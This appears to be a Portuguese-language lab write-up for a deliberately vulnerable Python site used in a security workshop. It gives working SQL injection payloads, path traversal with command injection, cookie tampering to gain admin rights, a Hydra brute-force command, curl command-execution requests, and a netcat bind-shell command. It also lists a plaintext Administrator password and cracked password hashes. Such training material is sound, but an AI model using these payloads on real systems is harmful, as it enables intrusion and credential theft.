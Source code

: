 # Infraestrutura

### Windows

- Region: us-east-1
- Instance id: This is the Windows client with tools for the Python_SafeSite Security Workshop
- AMI name: SecLabClient
- Description: This is the Windows client with tools for the Python_SafeSite Security Workshop
- Administrator Password: mBp4t;Jvg6!dskzt3DCHa@w7H?l5.?VE
- AMI id: ami-01127273b979fe92b

### Linux

- Region: us-east-1
- Instance id: i-0458f66b29d690451
- AMI name: SecLabServer
- Description: This is the Linux server with the vulnerable site for the Python_SafeSite Security Workshop
- AMI id: ami-01127273b979fe92b

# Falhas e Ataques

#### Página Inicial: SQL Injection

Ao colocar uma aspa dupla (") no campo de busca, o site quebra. Isso mostra que o site é vulnerável a ataques SQL Injection. Um agravante é que o desenvolvedor deixou a página de Debug habilitada, mostrando detalhes do erro e inclusive a engine (SQLite3). Com a informação do SQL é possível compor um ataque que seja adicionado à cláusula where da query:

- Original:

  - `SELECT * FROM posts WHERE Content LIKE "%"%";`

- Alteradas:

  - `SELECT * FROM posts WHERE Content LIKE "%X" union select 1, 2 --%";`

    - `X" union select 1, 2 --`
    - `X" union select name, sql from sqlite_master where type='table' --`
    - `X" union select name || ': ' || card, password from secrets --`
    - `X" union select login || ': ' || email, password from logins --`

Obtivemos os hashes dos logins, que podem ser facilmente quebrados no [https://crackstation.net/](https://crackstation.net/):

084e0343a0486ff05530df6c705c8bb4: guest@guest
084e0343a0486ff05530df6c705c8bb4

21232f297a57a5a743894a0e4a801fc3: admin@admin
0192023a7bbd73250516f069df18b500

263bce650e68ab4e23f28263760b9fa5: maria@gmail.com
3a1f9e20f1beac9b81a1e18e08b7f442

dc599a9972fde3045dab59dbd1ae170b: carlos@hotmail.com
a07bda8fd5e39462b4c3d860a36f6b4d

| Hash                             | Tipo | Senha       |
| -------------------------------- | ---- | ----------- |
| 084e0343a0486ff05530df6c705c8bb4 | md5  | guest       |
| 0192023a7bbd73250516f069df18b500 | md5  | admin123    |
| 3a1f9e20f1beac9b81a1e18e08b7f442 | md5  | unicornio   |
| a07bda8fd5e39462b4c3d860a36f6b4d | md5  | corinthians |

#### Sobre Nós: Path Traversal, Remote Command Execution

A página Sobre Nós claramente exibe o conteúdo de arquivos texto que estão no servidor. Ao clicar em um deles, a URL fica da seguinte forma:

[http://0.0.0.0:8000/about?doc=termo_de_uso](http://0.0.0.0:8000/about?doc=termo_de_uso)

Vamos explorar esse parâmetro:

- `?doc=x`: Tela em branco

- `?doc=/etc/passwd`: Tela em branco

Provavelmente não vemos nada porque esse campo recebe o nome do arquivo e faz prepend de um caminho e append de uma extensão. Logo, termo_de_uso deve virar algo como /pasta/termo_de_uso.txt. Se isso for verdade, podemos testar com diretórios relativos + null bytes e também com múltiplos nomes de arquivos.

- [http://0.0.0.0:8000/about?doc=../../../../../etc/passwd%00](http://0.0.0.0:8000/about?doc=../../../../../etc/passwd%00)  Quebra por causa do null byte.
- [http://0.0.0.0:8000/about?doc=/etc/hostname /etc/fstab /etc/passwd /etc/mtab /etc/hosts](http://0.0.0.0:8000/about?doc=/etc/hostname%20/etc/fstab%20/etc/passwd%20/etc/mtab%20/etc/hosts) mostra o conteúdo de todos os arquivos, menos o primeiro e o último.
- Será que neste contexto ele repassa o path para o shell? Se sim, podemos tentar executar comandos... [http://0.0.0.0:8000/about?doc=../../../../../etc/passwd%20$(echo%20/etc/hosts)%20x](http://0.0.0.0:8000/about?doc=../../../../../etc/passwd%20$(echo%20/etc/hosts)%20x). Game over!

#### Contato: CSRF + XSS (Firefox)

Estes ataques XSS não funcionam no Chrome.

No primeiro formulário é possível executar um XSS, mas ele não é persistido.

No segundo, entretanto, ele é persistido, mas não é executado.

Para fazer o ataque, a vítima tem que clicar em um link feito para roubar a sessão ou capturar o browser, com um software como o Beef, por exemplo.

#### Cadastro: XSS, File Upload

Ao criar um usuário, é possível fazer o upload de um arquivo qualquer que não seja uma foto para o servidor. No caso de um site PHP, por exemplo, este arquivo pode ser uma shell que permita acesso remoto ao servidor.

#### Área Restrita: HTTP Brute Force

Com o THC-Hydra, Burp Suite ou OWASP ZAP é possível facilmente quebrar as senhas, já que não há um limitador de tempo.

```
hydra -V -s 8000 \
    -l admin -P /opt/wordlists/common_it_passwords.txt \
    0.0.0.0 \
    http-post-form \
    '/login:login=^USER^&senha=^PASS^:Login incorreto!'
```

#### Perfil: HTTP Brute Force

O mesmo que o item anterior.

#### Global: Cookie Tampering (or Poisoning)

Ao criar um usuário de testes chamado cleber com senha 12345, os seguintes cookies foram setados após o login:

- pyverysafeid: 5c675a11f4a8474c3d75ff158570850a (este é cleber em MD5)

- pyverysafelogin: ee11cbb19052e40b07aac0ca060c23ee (este é a palavra user)

Se o hash é a palavra user, o que acontece se eu mudar para admin em MD5?

21232f297a57a5a743894a0e4a801fc3 -> admin

Ao trocar o cookie e dar refresh, os privilégios da sessão são elevados instantaneamente!

#### Global: Directory Search

Como não há nenhum recurso que impeça múltiplos requests sequenciais, ferramentas como o DIRB, o Nikto e o ZAP podem fazer ataques fuzzy ou via listas para encontrar diretórios ocultos.

`dirb http://0.0.0.0:8000/`

Achamos um /status oculto.

#### Status: Form Tampering (or Poisoning)

O diretório /status que só permite a execução de determinados comandos e apenas para o usuário admin, pode ser burlado via troca de parâmetros no request para que comandos sejam enviados diretamente ao servidor.

```
curl --cookie 'pyverysafelogin=21232f297a57a5a743894a0e4a801fc3' \
    'http://0.0.0.0:8000/status' \
    -X POST \
    --data 'cmd=env'
```

Para subir um shell reverso, caso o servidor tenha Netcat instalado:

```
curl --cookie 'pyverysafelogin=21232f297a57a5a743894a0e4a801fc3' \
    'http://0.0.0.0:8000/status' \
    -X POST \
    --data 'cmd=nc -lvp 8443 -e /bin/bash'
```

